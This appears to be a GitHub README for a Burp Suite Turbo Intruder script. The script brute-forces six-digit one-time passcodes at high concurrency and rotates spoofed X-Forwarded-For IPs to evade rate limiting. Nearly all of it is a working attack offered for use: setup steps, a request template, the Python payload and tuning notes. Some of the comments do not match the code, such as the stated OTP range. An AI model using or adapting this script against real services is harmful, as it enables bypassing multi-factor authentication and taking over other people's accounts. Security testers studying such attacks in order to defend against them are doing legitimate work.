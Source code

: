 # Race-Condition-Scripts

## OTP Brute-Force with IP Rotation (Race Condition Exploit)

 ### How to Configure

1. In Burp Suite Capture a legitimate OTP request
2. Right-click → "Convert to Turbo Intruder attack"
3. Replace the OTP value with `%s` in the body
4. Add/Modify the `X-Forwarded-For` header to use `%s`

Example request template:

```

POST /verify-otp HTTP/1.1

Host: target.com

X-Forwarded-For: %s

Content-Type: application/json

  

{"OTP":"%s"}

```

Payload:
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=300,
                          requestsPerConnection=100,
                          pipeline=False)

    # Initialize IP counter (starts at 1.1.1.1)
    ip_parts = [1, 1, 1, 1]

    for otp in range(310000, 999999):  # 000000 to 999999
        # Format current IP
        current_ip = "%d.%d.%d.%d" % tuple(ip_parts)
        
        # Increment IP (1.1.1.1 → 1.1.1.2 → ... → 1.1.1.255 → 1.1.2.0)
        ip_parts[3] += 1
        if ip_parts[3] > 255:
            ip_parts[3] = 1
            ip_parts[2] += 1
            if ip_parts[2] > 255:
                ip_parts[2] = 1
                ip_parts[1] += 1
                if ip_parts[1] > 255:
                    ip_parts[1] = 1
                    ip_parts[0] += 1

        # Pad OTP with leading zeros
        otp_str = str(otp).zfill(6)
        
        # Queue the request with parameters in correct order
        # First %s is for X-Forwarded-For (IP)
        # Second %s is for OTP in JSON body
        engine.queue(target.req, [current_ip, otp_str])


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)

```
### Request Structure
### Flowchart:

![Flowchart](https://raw.githubusercontent.com/spiritedonion/Race-Condition-Scripts/refs/heads/main/Race%20Condition.png)

The script generates requests with:

1. **Header**: `X-Forwarded-For: [current IP]` (e.g., `X-Forwarded-For: 1.1.1.1`)
2. **JSON Body**: `{"OTP": "[padded OTP]"}` (e.g., `{"OTP": "318121"}`)
### Attack Workflow

1. **IP Rotation**: Cycles through IPs from 1.1.1.1 to 255.255.255.255
2. **OTP Generation**: Tests all 6-digit combinations from 310000 upwards
3. **Concurrent Execution**: 300 parallel connections × 100 requests each
4. **Response Handling**: Any non-404 response is flagged as potentially valid
### Important Notes

- Adjust the OTP range (`000000-999999`) based on target hints
- Modify `concurrentConnections` based on target stability
- The IP rotation helps bypass IP-based rate limiting
- High concurrency exploits potential race conditions in OTP validation